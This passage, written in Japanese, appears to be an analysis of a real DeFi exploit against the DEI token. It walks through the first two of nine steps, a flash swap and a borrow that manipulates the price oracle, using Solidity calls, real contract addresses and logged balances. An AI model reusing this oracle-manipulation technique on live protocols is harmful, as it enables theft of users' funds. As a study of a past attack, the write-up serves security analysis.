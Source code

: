 ```
    [+]      my USDC balance: 0
    [+]      my DEI balance: 12787419360961504871925327

    [+] (8) exit the flash swap from spirit pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 3018770729245407709894965

    [+] (9) swap DEI to USDC from sAMM pool
    [+]      my USDC balance: 3064570164495
    [+]      my DEI balance: 0
```

全部で9つのステップあるので、1ステップずつ読んでいきます。

##### 1 ) フラッシュスワップでDEIの借り入れ

エクスプロイトではまず、 `0x8eFD36aA4Afa9F4E157bec759F1744A7FeBaEA0e` から、フラッシュスワップを利用してDEIを借り入れます。

フラッシュスワップについてはこちらを参照してください。

https://docs.uniswap.org/protocol/V2/guides/smart-contract-integration/using-flash-swaps

```solidity
spiritUsdcDei.swap(0, _reserve1 - 1, me, abi.encode(uint8(0x1)));
```

この借り入れは、オラクルを操作した後、ユーザーの負債を返却する際に利用されます。

swapのコールバック関数の中で、`my DEI balance`が大きく増えていることが確認できます。

```
    [+] (1) flash swap from spirit pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 9739342685820948870544270
    [+]      sAMM USDC reserve: 24660757275320
    [+]      sAMM DEI reserve: 24772798349205085390700207
    [+]      the amount of DEI to borrow (sAMM): 24772798349205085390700206
    [+]      the amount of DEI to pay back (sAMM): 24775275876792764667166923
    [+]      sAMM LP price: 2000000005487107362736617
```

##### 2 ) オラクル計算元からDEIの借り入れ

次に、`0x5821573d8F04947952e76d94f3ABC6d7b43bF8d0` から、DEIを借り入れます。

これは、上記アドレスのDEI, USDCの残高がオラクルとして用いられているため、それを操作する目的で借り入れるものです。

このようにして大量に借り入れることで価値が下がり、ユーザーの清算処理を行うことができます。

```solidity
sAMMUsdcDei.swap(0, _reserve1 - 1, me, abi.encode(uint8(0x2)));
```

借り入れ後、さらに`my DEI balance`が上昇していることが分かります。

```
    [+] (2) flash swap from sAMM pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 34512141035026034261244476
    [+]      my LP deposit token balance: 0
    [+]      my LP token balance: 0
    [+]      sAMM LP price: 997733504354413127115105
```
